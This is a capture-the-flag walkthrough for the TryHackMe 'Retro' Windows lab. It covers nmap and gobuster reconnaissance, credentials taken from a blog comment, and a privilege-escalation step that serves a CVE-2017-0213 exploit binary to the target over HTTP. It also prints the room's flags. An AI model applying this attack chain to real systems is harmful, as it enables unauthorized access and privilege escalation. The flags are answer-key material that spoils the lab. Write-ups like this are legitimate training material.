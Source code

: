 # Retro

New high score!

[Retro](https://tryhackme.com/room/retro)

## Topic's

* Network Enumeration
* Web Enumeration
* Web Poking
* CVE-2017-0213 - Windows COM Aggregate Marshaler/IRemUnknown2

## Pwn

Can you time travel? If not, you might want to think about the next best thing.

Please note that this machine does not respond to ping (ICMP) and may take a few minutes to boot up.

-------------------------------------

There are two distinct paths that can be taken on Retro. One requires significantly less trial and error, however, both will work. Please check writeups if you are curious regarding the two paths. An alternative version of this room is available in it's remixed version Blaster.

```
kali@kali:~/CTFs/tryhackme/Retro$ sudo nmap -A -p- -sC -sV -Pn 10.10.222.128
[sudo] password for kali: 
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-04 09:46 CEST
Nmap scan report for 10.10.222.128
Host is up (0.039s latency).
Not shown: 65533 filtered ports
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: RETROWEB
|   NetBIOS_Domain_Name: RETROWEB
|   NetBIOS_Computer_Name: RETROWEB
|   DNS_Domain_Name: RetroWeb
|   DNS_Computer_Name: RetroWeb
|   Product_Version: 10.0.14393
|_  System_Time: 2020-10-04T07:51:25+00:00
| ssl-cert: Subject: commonName=RetroWeb
| Not valid before: 2020-10-03T07:44:58
|_Not valid after:  2021-04-04T07:44:58
|_ssl-date: 2020-10-04T07:51:26+00:00; +3m07s from scanner time.
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2016 (89%), FreeBSD 6.X (85%)
OS CPE: cpe:/o:microsoft:windows_server_2016 cpe:/o:freebsd:freebsd:6.2
Aggressive OS guesses: Microsoft Windows Server 2016 (89%), FreeBSD 6.2-RELEASE (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 3m06s, deviation: 0s, median: 3m06s

TRACEROUTE (using port 3389/tcp)
HOP RTT      ADDRESS
1   38.93 ms 10.8.0.1
2   38.96 ms 10.10.222.128

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 133.01 seconds
```

1. A web server is running on the target. What is the hidden directory which the website lives on?

```
kali@kali:~/CTFs/tryhackme/Retro$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 10.10.222.128
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.222.128
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/10/04 09:50:53 Starting gobuster
===============================================================
/retro (Status: 301)
Progress: 31140 / 220561 (14.12%)^C
[!] Keyboard interrupt detected, terminating.
===============================================================
2020/10/04 09:53:15 Finished
===============================================================
```

`/retro`

* [One Comment on “Ready Player One”](http://10.10.222.128/retro/index.php/2019/12/09/ready-player-one/#comment-2)

![](2020-10-04_09-54.png)

* `wade`
* `parzival`

2. user.txt

![](2020-10-04_09-57.png)

`3b99fbdc6d430bfb51c72c651a261927`

3. root.txt

```
kali@kali:~/CTFs/tryhackme/Retro$ unzip CVE-2017-0213_x64.zip 
Archive:  CVE-2017-0213_x64.zip
  inflating: CVE-2017-0213_x64.exe   
kali@kali:~/CTFs/tryhackme/Retro$ sudo python3 -m http.server 80
[sudo] password for kali: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.222.128 - - [04/Oct/2020 10:11:22] "GET / HTTP/1.1" 200 -
10.10.222.128 - - [04/Oct/2020 10:11:22] code 404, message File not found
10.10.222.128 - - [04/Oct/2020 10:11:22] "GET /favicon.ico HTTP/1.1" 404 -
10.10.222.128 - - [04/Oct/2020 10:11:34] "GET /CVE-2017-0213_x64.exe HTTP/1.1" 200 -
```

![](2020-10-04_10-14.png)

`7958b569565d7bd88d10c6f22d1c4063`
